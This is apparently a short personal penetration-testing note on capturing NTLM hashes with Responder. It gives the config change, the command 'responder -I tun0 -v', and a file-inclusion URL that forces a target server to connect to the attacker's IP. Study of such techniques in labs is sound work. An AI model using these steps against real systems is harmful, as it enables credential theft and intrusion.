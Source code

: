 ```yaml
---
title: Responder
updated: 2023-10-28 12:00:08Z
created: 2023-10-28 11:17:19Z
latitude: 52.52000660
longitude: 13.40495400
altitude: 0.0000
---
```


To capture NTLM hash
Set **SMB** and **HTTP** to **ON** in Responder.conf
`responder -I tun0 -v`

Force the target to browse to hacker IP:

**HTTP File-inclusion**
`http://<target>/index.php?page=//<hackerIP>/whatever`

